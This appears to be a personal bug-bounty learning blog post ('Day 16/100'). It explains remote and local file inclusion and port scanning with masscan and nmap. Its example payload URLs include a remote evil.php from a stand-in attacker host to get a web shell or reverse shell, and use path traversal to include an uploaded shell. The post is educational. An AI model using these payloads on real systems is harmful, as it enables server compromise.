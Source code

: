 ```yaml
---
title:  "Day 16/100 Hack and Improvement"
date: 2020-05-16
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day16/header.jpg"
---
```


After two weeks of constant learning and hacking, we finally have gotten some results! [Rajesh Ranjan](https://twitter.com/eh_rajesh) with a great P2 level vulnerability in [Bugcrowd](https://bugcrowd.com/), and [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_) with his first valid vulnerability report in [intigriti](https://www.intigriti.com/).

Here it is the P2 level vulnerabilty that have gotten triaged by [Rajesh Ranjan](https://twitter.com/eh_rajesh)
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day16/rajesh.jpg" alt="nmap scan">

And the first valid vulnerability report from [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_)
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day16/sam.png" alt="nmap scan">

Day 16 comes with more learning about the following vulnerabilities. 

## File Inclusion Vulnerabilities

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). A file inclusion vulnerability allows an attacker to access unauthorized or sensitive files available on the web server or to execute malicious files on the web server by making use of the ‘include’ functionality.
This vulnerability is mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation. This vulnerability can cause code execution attacks, or even read internal sensitive files present on the server.
There are Basically two types of file inclusion vulnerability.

1. Remote File Inclusion (RFI)
2. Local File Inclusion (LFI)

### Remote File Inclusion

Remote file inclusion occurs when web application includes a remote file or any script located on another server. 
For example, there is a website named example.com, including its index.php using a file parameter as follows
```
https://example.com/file=index.php
```

Now in this case, an attacker may be able to exploit this functionality, and can place an evil code named evil.php on his own server that contains a web shell, and might be able to exploit as:
```
http://example.com/?file=http://attacker.example.com/evil.php
```

Now as soon as this code executes, attack might be able to gain a reverse shell on his side, and has full access of the web server.

### Local File Inclusion

Local file inclusion occurs when an attacker may be able to trick application to expose the file of the web server. A successful LFI attack may lead to XSS, code execution attacks. Basically LFI occurs when application uses path to a file as input.
LFI is much similar to RFI, but in LFI an attacker may only include local file (not remote files as RFI).

Case 1: Suppose, there is an upload section on the server, and an attacker has successfully uploaded a web shell to the server, then can trick the web sever to include that web shell file named evil.php as follows
```
http://example.com/?file=../../uploads/evil.php
```

So by this way, he/she can get the code execution on the server.

Case 2:  The another attack which we can perform using LIF is Directory traversal attack. Check this out [here](https://coffeejunkie.me/day15/).

### Cheatsheets and Payloads

1. https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal

## Port Scanning For Recon

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). Port scanning for network and web application pentesting can open a new eye full of possibilites. Two of the most known port scanners are [masscan](https://github.com/robertdavidgraham/masscan) and the classic [nmap](https://nmap.org/). There is a big difference between nmap and masscan, usually nmap takes longer than masscan due to its programming language, and network scanning methods. Masscan is faster because has been programmed in C and it can scan the whole internet with enough hardware in 15 minutes. 

### Scanning methods 

One of the methods in order to obtain fast and decent results is first using [masscan](https://github.com/robertdavidgraham/masscan) due to its speed. 
```
masscan -iL resolved-ips.txt -p1-65535 -oL output.txt
```

Once the scan is done and you see interesting ports such as 4080,21, and such you can use nmap to get detailed information from one IP. 
```
nmap -Pn -T4 -A 10.10.10.10 -p21,4080 -oN output.nmap
```

### Advantages

Some cases depending on the target, they might be running different kind of vulnerable software that might lead to further exploitation. It is strongly recommend to use nmap scripts. [Here](https://nmap.org/book/man-nse.html) you can find more information related to the scripts.

